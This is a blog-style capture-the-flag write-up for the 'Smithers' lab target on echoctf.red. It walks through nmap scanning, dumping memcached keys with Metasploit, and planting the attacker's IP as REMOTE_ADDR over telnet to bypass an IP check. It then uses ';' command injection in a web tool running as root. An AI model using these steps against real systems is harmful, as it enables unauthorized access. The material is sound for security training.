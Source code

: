 ```yaml
---
layout: post
title:  "Smithers"
date:   2024-07-18 17:42:56 +0200
categories: ctf
---
```

<img width="56" height="106" src=":/ac8affd60a4543bc9ad9e5cdbb10d960"/>

[Link to target](https://echoctf.red/target/5)

So this is Smithers on echoctf.red:

I start reconing with nmap:
```
PORT      STATE SERVICE   VERSION
10888/tcp open  http      nginx
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Network Tools
11211/tcp open  memcached Memcached 1.5.12 (uptime 224 seconds)
```

on port 10888 there's a web server:
![2137b8041b3930623610e38508ecd760.png](:/5b0d8a3da2914f4484de33d25c7755c5)

It says that these utilities are only available to authorized IP's only.

I use metasploit to extract infos from memcached:

```
msf6 > use auxiliary/gather/memcached_extractor

msf6 auxiliary(gather/memcached_extractor) > set rhosts 10.0.100.142 
rhosts => 10.0.100.142
msf6 auxiliary(gather/memcached_extractor) > exploit

[+] 10.0.100.142:11211    - Found 1 keys

Keys/Values Found for 10.0.100.142:11211
========================================

 Key     Value
 ---     -----
 ETSCTF  "VALUE ETSCTF 0 39\r\nETSCTF_<REDACTED>\r\nEND\r\n"

```

and a flag is found.

We start the exploitation phase. The key is to store my IP address in the memcached service as REMOTE_ADDR so after i searched online i use telnet to connect and to store my address

```
telnet 10.0.100.142 11211
Trying 10.0.100.142...
Connected to 10.0.100.142.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
<My IP>
STORED
```

Once my address is stored, i can access the web server, it presents a command line.
![6d86c92ad14f58d3009dcc8713a3e05c.png](:/43dba091bef24c81a6e1823551be81ce)
Two flags are there. Using ";" I can run other commands and see that it runs as root. So with a simple ```
grep -r 'ETSCTF' /
``` 

I can find all flags.